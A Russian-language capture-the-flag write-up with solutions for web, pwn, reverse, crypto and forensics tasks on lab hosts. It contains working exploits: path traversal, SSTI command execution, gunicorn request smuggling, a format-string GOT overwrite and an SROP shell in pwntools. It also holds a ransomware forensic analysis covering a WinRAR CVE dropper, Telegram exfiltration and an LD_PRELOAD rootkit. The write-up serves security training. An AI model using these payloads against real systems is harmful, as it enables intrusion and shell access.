# Task-Based
## Web
### Web1
Замечаем, что на сайте присутствует уязвимость Path Traversal.
Так как в file1.txt есть подсказка об /etc/secret, с помощью уязвимости открываем данный файл.
Exploit:
```
curl http://192.168.12.10:5001/download?file_type=../../../../../../etc/secret
```

### Web2
Находим ssti в /doc/ и пример эксплуатации: https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability.
Изначально в директории /login перед чтением пароля из файла password.txt переменной adminPassword присваивается значение по умолчанию: password.
Значит, c помощью ssti в /doc можно удалить password.txt, а затем в /login с помощью get-параметра password передать значение по умолчанию.
Exploit:
```bash
sudo apt install httpie
http get http://192.168.12.13:8090/doc/__%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22rm%20password.txt%22%29%7D__%3A%3A.xRY
http get http://192.168.12.13:8090/login?password=password  
```
### Web3
Изучив содержимое Dockerfile'а замечаем, что версия gunicorn уязвима к http request smuggling 
https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/
Значит, мы можем отправить запрос на директорию flag (на которую мы изначально зайти не можем из-за запрета в конфиге haproxy), в которой есть уязвимость ssti с обходом списка запретов. Нам подходит такой payload: {self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()}}.
Exploit:
```bash
echo -en "GET / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 161\r\nSec-Websocket-Key1: x\r\n\r\nxxxxxxxxGET /flag?name={{self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()}} HTTP/1.1\r\nHost: localhost\r\nContent-Length: 35\r\n\r\nGET / HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc 192.168.12.11 8001
```
## Pwn
### Pwn1
Заметим, что в бинарном файле происходит выполнение функции printf с контролируемым пользователем первым аргументом. В таких случаях можно применить уязвимость format string, позволяющую перезаписывать информацию по произвольному адресу. В данном случае отключены защиты, отвечающие за запрет перезаписи GOT и рандомизации адресов (адреса функций в бинарном файле статичны и их можно переписывать).
В данном случае можно переписать в GOT адрес функции exit на адрес функции win, тем самым запустив system("/bin/sh").
Exploit:
``` python
from pwn import *

context.arch = "amd64"
main_addr = 0x40116c
exit_got = 0x404018
printf_got = 0x404008
fgets_got = 0x404010
system_addr = 0x404000
offset = 6

def leak_offset():
    for i in range(1,20):
        p = connect("192.168.12.13",1923)
        p.sendline(b"A" * 8 + f"%{i}$llx".encode().ljust(8,b"|") + b"A" * 8)
        print(i,p.recvline())
        p.close()

p = connect("192.168.12.13",1923)
 
payload = fmtstr_payload(offset,{exit_got:0x401156}) # exit got to win_func
print(payload)
p.sendline(payload)
p.interactive()
```
### Pwn2
Открыв бинарный файл, замечаем, что при запуске программы запускается только один syscall на read() по адресу rsp с размером буфера 500. Также сразу после вызова syscall'а и окончания бинарного файла лежат инструкции ассемблера pop rax; ret, которые можно использовать для построения ROP-цепочки. В данном случае применяется техника SROP, которая позволяет поменять нужные нам регистры и переписать адрес rdi на адрес строки "/bin/sh\x00", которую при запуске с помощью echo -ne "/bin/sh\x00" засовывают в бинарный файл. Так как адреса в данном бинаре статичные, и у нас есть все нужные компоненты для применения техники SROP, мы можем вызвать syscall execve("/bin/sh"), тем самым получив удаленный доступ.
Exploit:
```python
from pwn import *

context.arch = "amd64"
p = connect("192.168.12.13", 1555)

BINSH = 0x41430
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()

```
## Rev
### Rev1
Откроем файл в ghidra. Через entry выйдем на функцию, которую назовем main. Вот её код:
```c
undefined8 main(int argc,char **argv)

{
  bool bVar1;
  undefined7 extraout_var;
  
  if (argc < 2) {
    puts("No flag provided, exiting");
  }
  printf("flag verification ");
  bVar1 = FUN_00101285(argv[1]);
  if ((int)CONCAT71(extraout_var,bVar1) == 0) {
    puts("failed. Invalid code");
  }
  else {
    puts("completed\nGood job!");
  }
  return 0;
}
```
Увидим, что флаг командной строки отправляется на проверку, где проверяется корректность флага.
В функции происходит следующее: берутся биграммы флага, к которым потом применяется преобразование, и значение сравнивается с заранее определенными константами. Код приложен.
```c
  while( true ) {
    if (local_1c >> 1 <= i) {
      return INT_ARRAY_00104040[(int)(uint)i] == 0;
    }
    local_1f = *(undefined2 *)(param_1 + (int)((uint)i * 2));
    iVar1 = INT_ARRAY_00104040[(int)(uint)i];
    iVar2 = bigram_transform((char *)&local_1f,2);
    if (iVar1 != iVar2) break;
    i = i + 1;
  }
```
Теперь можно скопировать константы из файла, скопировать код преобразования, и перебирать биграммы до тех пор, пока значение не будет равно искомому. Код программы для решения прилагается.
```c
#include <stdio.h>
#include <string.h>

unsigned int iv[256] = {
    0,          1996959894, 3993919788, 2567524794, 124634137,  1886057615,
    3915621685, 2657392035, 249268274,  2044508324, 3772115230, 2547177864,
    162941995,  2125561021, 3887607047, 2428444049, 498536548,  1789927666,
    4089016648, 2227061214, 450548861,  1843258603, 4107580753, 2211677639,
    325883990,  1684777152, 4251122042, 2321926636, 335633487,  1661365465,
    4195302755, 2366115317, 997073096,  1281953886, 3579855332, 2724688242,
    1006888145, 1258607687, 3524101629, 2768942443, 901097722,  1119000684,
    3686517206, 2898065728, 853044451,  1172266101, 3705015759, 2882616665,
    651767980,  1373503546, 3369554304, 3218104598, 565507253,  1454621731,
    3485111705, 3099436303, 671266974,  1594198024, 3322730930, 2970347812,
    795835527,  1483230225, 3244367275, 3060149565, 1994146192, 31158534,
    2563907772, 4023717930, 1907459465, 112637215,  2680153253, 3904427059,
    2013776290, 251722036,  2517215374, 3775830040, 2137656763, 141376813,
    2439277719, 3865271297, 1802195444, 476864866,  2238001368, 4066508878,
    1812370925, 453092731,  2181625025, 4111451223, 1706088902, 314042704,
    2344532202, 4240017532, 1658658271, 366619977,  2362670323, 4224994405,
    1303535960, 984961486,  2747007092, 3569037538, 1256170817, 1037604311,
    2765210733, 3554079995, 1131014506, 879679996,  2909243462, 3663771856,
    1141124467, 855842277,  2852801631, 3708648649, 1342533948, 654459306,
    3188396048, 3373015174, 1466479909, 544179635,  3110523913, 3462522015,
    1591671054, 702138776,  2966460450, 3352799412, 1504918807, 783551873,
    3082640443, 3233442989, 3988292384, 2596254646, 62317068,   1957810842,
    3939845945, 2647816111, 81470997,   1943803523, 3814918930, 2489596804,
    225274430,  2053790376, 3826175755, 2466906013, 167816743,  2097651377,
    4027552580, 2265490386, 503444072,  1762050814, 4150417245, 2154129355,
    426522225,  1852507879, 4275313526, 2312317920, 282753626,  1742555852,
    4189708143, 2394877945, 397917763,  1622183637, 3604390888, 2714866558,
    953729732,  1340076626, 3518719985, 2797360999, 1068828381, 1219638859,
    3624741850, 2936675148, 906185462,  1090812512, 3747672003, 2825379669,
    829329135,  1181335161, 3412177804, 3160834842, 628085408,  1382605366,
    3423369109, 3138078467, 570562233,  1426400815, 3317316542, 2998733608,
    733239954,  1555261956, 3268935591, 3050360625, 752459403,  1541320221,
    2607071920, 3965973030, 1969922972, 40735498,   2617837225, 3943577151,
    1913087877, 83908371,   2512341634, 3803740692, 2075208622, 213261112,
    2463272603, 3855990285, 2094854071, 198958881,  2262029012, 4057260610,
    1759359992, 534414190,  2176718541, 4139329115, 1873836001, 414664567,
    2282248934, 4279200368, 1711684554, 285281116,  2405801727, 4167216745,
    1634467795, 376229701,  2685067896, 3608007406, 1308918612, 956543938,
    2808555105, 3495958263, 1231636301, 1047427035, 2932959818, 3654703836,
    1088359270, 936918000,  2847714899, 3736837829, 1202900863, 817233897,
    3183342108, 3401237130, 1404277552, 615818150,  3134207493, 3453421203,
    1423857449, 601450431,  3009837614, 3294710456, 1567103746, 711928724,
    3020668471, 3272380065, 1510334235, 755167117};

int enc[14] = {-305143309, 1684786467,  1358540119,  -224808479, -961956124,
               847274316,  -1820906750, -1423164861, 705532778,  469374164,
               626880303,  -1001916821, 1524198645,  -379278062};

#define MASK 0xffffffff

int transform(char *buf, unsigned long cnt, unsigned int mask) {
  unsigned int mask2 = mask;
  char *iter = buf;
  for (unsigned int i = 0; i < cnt; ++i) {
    mask2 = iv[((int)*iter ^ mask2) & 0xff] ^ mask2 >> 8;
    iter = iter + 1;
  }
  return ~mask2;
}

int main() {
  char res[20] = {0};
  char big[2] = {0};
  for (int i = 0; i < 14; ++i) {
    for (unsigned char a = 8; a < 150; ++a) {
      for (unsigned char b = 8; b < 150; ++b) {
        big[0] = a;
        big[1] = b;
        if (transform(big, 2, MASK) == enc[i]) {
          printf("Found bigram %c%c\n", a, b);
          res[i * 2] = a;
          res[i * 2 + 1] = b;
          goto end_iteration;
        }
      }
    }
  end_iteration:
    big[0] = 52;
  }

  printf("[+] flag is %s\n", res);
}
```


## Crypto
### Crypto1
В данном сервисе необходимо найти секретное значение ПИН, чтобы получить флаг. Для проверки ПИН надо прислать на эндпойнт /api/CheckPin/. Перебрать ПИН таким образом не выйдет, так как эндпойнт принимает по одному запросу в минуту. Так же доступен эндпойнт /api/EncryptedPin/, возвращающий зашифрованное значение ПИН-кода, шифрованное AES CBC, с неизвестным ключом и значением _iv_, получаемым из текущего времени. Так же с помощью /api/EncryptPin можно получить зашифрованное значение произвольного ПИН-кода, шифрованное такими же параметрами.

Заметив, что _iv_ применяется до операции шифрования, становится понятно, что можно перебирать шифротексты ПИН-кодов до того, пока шифротекст не совпадет с полученным из /api/EncryptedPin/. Однако, каждую секунду шифротекст искомого ПИН-кода нужно обновлять, так как каждую секунду обновляется __iv__. Код, эксплуатирующий уязвимость прикреплён.
```python
import requests
import base64
import time
import json
import tqdm

URL = "http://192.168.12.12:5000/"


def time2iv(time):
    return time.to_bytes(16, byteorder="big")


def xor(a, b):
    r = b""
    for i, j in zip(a, b):
        r += bytes([i ^ j])
    return r


def enc_pin(p, empty=False):
    r = requests.post(
        URL + "/api/EncryptPin", json=({"foo": "bar"} if empty else {"pin": p})
    )
    return base64.b64decode(json.loads(r.text)["encrypted_pin"])


def get_enc_pin():
    r = requests.get(URL + "/api/EncryptedPin")
    return base64.b64decode(json.loads(r.text)["encrypted_pin"])


def get_time():
    r = requests.get(URL + "/api/Time")
    return json.loads(r.text)["current_time"]


def check_pin(p, empty=False):
    r = requests.post(
        URL + "/api/CheckPin", json=({"foo": "bar"} if empty else {"pin": p})
    )
    return r.text


assert time2iv(int(time.time())) == time2iv(get_time())

enc = get_enc_pin()

first_time = int(time.time())

for i in tqdm.tqdm(range(100000), desc="Bruting pin..."):

    if int(time.time()) != first_time:
        enc = get_enc_pin()
        first_time = int(time.time())

    if enc_pin(i) == enc:
        print(f"[+] pin is {i}")
        ans = i
        break

print(check_pin(ans))
```

## Forensics
### Первая машина (Windows)

#### Подготовка
Получив образ виртуальной машины, сразу импортируем его в VirtualBox. Для удобства включим Drag'n'Drop и Clipboard в обе стороны, чтобы можно было удобно передавать файлы на и из виртуальной машины. Так же с помощью qemu-nbp смонтируем диск .vdi локально, чтобы иметь доступ к файлам с нашей машины.


По легенде, ВПО попало на машину через вредоносное письмо. Убедимся в этом, увидев вредоносные файлы в кэше Outlook. Почта - ответ на первый вопрос.

#### Первый взгляд
В кэше почты находим архив с завлекающим названием classfied, содержащий подозрительный файл .cmd. Этот архив эксплуатирует уязвимость CVE-2023-38831 в WinRAR. Распакуем архив, увидим, что ВПО скачивалось на машину с хоста 95.169.192.220 в AppData/Rjomba.exe. Таким образом, получаем ответы на второй и третий вопросы.



#### Анализ Rjomba.exe
Отследим сетевую активность с помощью CharlesProxy. Настроив SSL проксирование, увидим запросы на api.telegram.org/..., что и послужит ответом на вопрос 7. Метод аутентификации - токен ТГ бота.



Начнем статический анализ кода в ghidra. Заметим вызовы функций CheckForRemoteDebugger и isDebuggerPresent, которые противодействуют отладке. Это ответ на вопрос 4.



Так же заметим присутствие vftable классов библиотеки CryptoPP, отвечающих за шифрование AES_CBC и SBOX AES. Это потверждает, что алгоритм шифрования - AES.



Заметим, что многие строчки, важные для работы программы, хранятся в программе в зашифрованном виде и расшифровываются по одному и тому же алгоритму. Алгоритм приложен в скриншоте. Тогда, напишем дешифратор таких строк и попробуем задешифровать все строки в файле.



```c
#include 
#include 

typedef int undefined4;
typedef long long undefined8;

char param_2[100000] = {0};


void FUN_14003332c(char* param_1,char* param_2, int cnt)

{
  unsigned long long uVar1;
  char cVar2;
  unsigned  int uVar3;
  unsigned long long uVar4;
  long long lVar5;
  
  uVar4 = 0;
  lVar5 = (long long) param_2 - (long long) param_1;
  do {
    uVar1 = uVar4 / 0x32;
    cVar2 = (char)uVar4;
    uVar3 = (int)uVar4 + 1;
    uVar4 = (unsigned long long)uVar3;
    *param_1 = cVar2 + (char)uVar1 * -0x32 + 0x36U ^ param_1[lVar5];
    param_1 = param_1 + 1;
  } while ((int)uVar3 &lt; cnt);
  return;
}


int main() {
  while (gets(param_2)) {
        FUN_14003332c(param_2, param_2, strlen(param_2));
        puts(param_2);
  }
}
```
Будем использовать вот так:
```bash
gcc amogus.c
strings Rjomba.exe -n16 | ./a.out
```
В выводе увидим много мусорных строк, а так же две строки длиной 32, длины ключа AES 256. Строки - amogusamogusamogusamogusamogusam, sugomasugomasugomasugomasugomasu, одна из них и оказывается искомым ключом. Таким же образом находим __iv__, который оказывается равен abababababababab. Получаем ответ на 6 вопрос.

Чтобы ответить на последний вопрос, напишем программу-дешифратор на python:
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from base64 import b64decode

f = b64decode("K0uvQoK4IHyTxMGgFXcWFdYEPqZzSTO8G79diypFSlU=") # содержимое pass.txt.ransom
c = AES.new(b"amogusamogusamogusamogusamogusam", AES.MODE_CBC, b"abababababababab")
print(unpad(c.decrypt(f), block_size=16))
```
Получим пароль sFYZ#2z9VdUR9sm`3JRz и закроем последний вопрос!

### Вторая машина (Debian)

В условии нам дан файл vdsk. Для удобства работы распакуем его и смонтируем к себе.
```bash
7z x Debian\ Forensics.vdsk
mkdir boot-disk
mkdir disk1
sudo mount 0.img boot-disk
sudo mount 1.img disk1
```
После этого получаем доступ к файлам на ФС.

Запустив ls, в / увидим нестандартный каталог XxJynx, содержащий динамические библиотеки. После быстрого поиска в интернете находим, что это - руткит LD_PRELOAD, необходимый для закрепления. Потвердим его наличие в системе через /etc/ld.so.preload, и ответим на 7 вопрос.



Посмотрим в /root/.bash_history. Заметим следующие команды:
```bash
touch .pwned
...
rm /tmp/linpeas.txt
```
Поймем, что злоумышленник использовал для сканирования системы linpeas и ответим на 6 вопрос.

Чтобы ответить на первый вопрос, проверим версию gitlab, установленную на сервере (15.2.2) и поймем, что в данной версии зарегистрированный пользователь может получить удаленный доступ зарегистрированным пользователям. Уязвимость - CVE-2022-2992. Получаем ответ на вопросы 1 и 2.



Ошибки в конфигурации были допущены следующие: был разрешен удаленный доступ через ssh к суперпользователю, а в sudoers любой пользователь, обладающий правами sudo мог исполнить /usr/bin/git без пароля.




Повышение привилегий произошло как раз из-за ошибки в sudoers, можно заметить, как злоумышленник с помощью git добавил свои ssh ключи в доверенные, чем обеспечил себе доступ к серверу на постоянной основе. Из-за PermitRootLogin он мог заходить на сервер даже с правами суперпользователя. Команда, повысившая привилегии прикреплена в скриншоте, и между делом были получены ответы на оставшиеся три вопроса.



# Defense
## Задание 1
